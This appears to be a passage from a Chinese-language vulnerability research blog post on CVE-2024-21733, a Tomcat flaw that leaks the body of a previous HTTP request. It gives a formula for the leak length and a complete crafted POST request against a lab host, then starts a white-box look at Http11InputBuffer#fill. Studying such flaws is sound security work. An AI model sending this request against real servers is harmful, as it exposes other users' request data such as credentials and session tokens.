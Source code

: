 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxEibRjrEjvUOXpoebVYVqCxKsibxyA4FYx2GoUa1BSSafRnFgvcKeyHj9ibrErtRo3byLZxhVkCrfcgg/640?wx_fmt=png&from=appmsg "")  
  
发现此次请求的数据包好像覆盖了上一个请求的数据包一部分，  
最最后再试一次：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxEibRjrEjvUOXpoebVYVqCxKbwUOFjnucibmJKbl922vVDeolO44iagSJlL4BdRsLSCkEbu7bdLKTxrg/640?wx_fmt=png&from=appmsg "")  
  
perfect！  
  
于是在没看代码前，我们可以大胆推出公式（在不使用真实key-value的情况下）：  
```
len(leakage) = len(previous body) + len(actually length) + 1 -len(Content-Length)

```  
  
但是  
leakage会被本次请求的数据包覆盖一部分，所以最佳的实践应该是：  
  
```
POST /CVE-2024-21733 HTTP/1.1
Host: 192.168.3.144:8080
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 2
Content-Type: application/x-www-form-urlencoded
 
x
```  
  
  
如此便可以完整的将previous request body获取到了  
  
  
**白盒分析**  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/00GYaClAoOrmvvX6C3cks3CEkwhyjWWcnU37PF6EG24iaKOMsXubRmfhynGOn6Iy35PBu1GxD6E39waxA56zG3ZibyZtFxjEBS/640?wx_fmt=svg&from=appmsg "")  
  
**初窥门径**  
  
由于修复的地方位于  
org.apache.coyote.http11.Http11InputBuffer#fill，所以先从这里开始找  
  